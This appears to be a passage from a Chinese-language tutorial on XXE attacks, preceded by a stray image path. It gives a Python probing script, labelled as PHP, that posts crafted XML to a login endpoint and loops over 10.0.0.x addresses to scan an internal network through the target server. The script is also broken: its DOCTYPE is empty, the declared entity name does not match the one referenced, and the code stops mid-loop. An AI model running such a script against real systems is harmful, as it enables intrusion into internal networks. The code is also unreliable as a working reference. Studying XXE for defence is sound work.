 ![image.png](assets/1700812438-d583c92be516b12a2ed46b5aa6379ed8.png)  
**下面是一个探测脚本的实例：**

```php
import requests
import base64

#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>

def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<user>"""
    xml = xml + "\r\n" + """ <username>&test;</username>"""
    xml = xml + "\r\n" + """</user>"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://192.168.11.59/doLogin.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
#   print base64.b64decode(coded_string)
for i in range(1, 255):
    try:
        i = str(i)
        ip = '10.0.0.' + i
```
